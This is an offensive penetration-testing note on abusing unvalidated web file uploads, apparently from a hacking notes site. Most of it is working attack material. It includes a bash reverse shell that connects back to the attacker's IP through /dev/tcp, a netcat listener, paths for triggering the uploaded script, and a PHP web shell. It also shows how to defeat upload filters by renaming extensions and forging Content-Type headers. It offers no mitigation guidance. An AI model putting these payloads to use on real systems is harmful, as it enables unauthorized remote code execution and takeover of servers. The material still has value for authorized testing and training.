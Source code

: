 # Abuse File Upload

File upload functionality is a common feature in web applications, allowing users to submit images, documents, or other files. However, improper handling of file uploads can lead to severe security risks, including remote code execution (RCE), privilege escalation, and data exfiltration.

Here we find an example scenario where this can be exploited:

* Imagine we find an application that allows users to upload files of a type but it does not validate the file type, for example, a field for submitting an image

```bash
http://$url/submit #Example route of the page with the submit option
```

***

* We should submit a file for an image extension such as _jpg_, or _png_, among others. But as is not validating input we could try to submit an arbitrary file with a script for a Reverse Shell

<pre class="language-sh" data-title="RevShell.sh" data-overflow="wrap" data-line-numbers><code class="lang-sh">#!/bin/bash
<strong>bash -i >&#x26; /dev/tcp/$MyIP/$port 0>&#x26;1
</strong></code></pre>

***

* Then we set up a [_Netcat_](../../networks/tools-and-utilities.md#netcat) listener to catch the connection

{% code overflow="wrap" lineNumbers="true" %}
```bash
 nc -nvlp $port #Same port that is in the script
```
{% endcode %}

***

* Then we hit the web calling the file, and with this, we should catch the shell in our listener

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/RevShell.sh #Invoke the file
http://$url/uploads/RevShell.sh   #Common route for uploaded files
http://$url/_uploaded/RevShell.sh #Another common route for uploaded files
```
{% endcode %}

{% hint style="info" %}
If we don't know where the files are being saved on the web, we could fuzz the URL to find possible directions where they could be
{% endhint %}

***

## <mark style="color:orange;">File Type Filter Bypass</mark>

Sometimes the uploads are check and sanitized in different forms, here we find some ways to bypass this some of these restrictions:

* In case it's filtering by a string comparison of the extension or name, we could try to change them arbitrarily to match the requested

{% code overflow="wrap" lineNumbers="true" %}
```bash
mv RevShell.sh RevShell.jpg #Change extension if needed to match 
mv RevShell.sh image.jpg    #Change complete name if needed to match
```
{% endcode %}

{% hint style="info" %}
Then we can continue to invoke the file and gain the remote execution
{% endhint %}

***

* In case it's filtering by the file type indicated in the request headers, for example, the _Content-Type_ header we could try to change it arbitrarily to a valid one

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Example request
Content-Disposition: form-data; name="avatar"; filename="Shell.php"
Content-Type: application/x-php #This is set by default

<?php system($_REQUEST["cmd"]); ?>

# We can change it to bypass
Content-Disposition: form-data; name="avatar"; filename="Shell.php"
Content-Type: image/png #Use file type required, the content won't be checked

<?php system($_REQUEST["cmd"]); ?>
```
{% endcode %}

{% hint style="info" %}
ThenThen we can continue to invoke the file and gain the remote execution
{% endhint %}
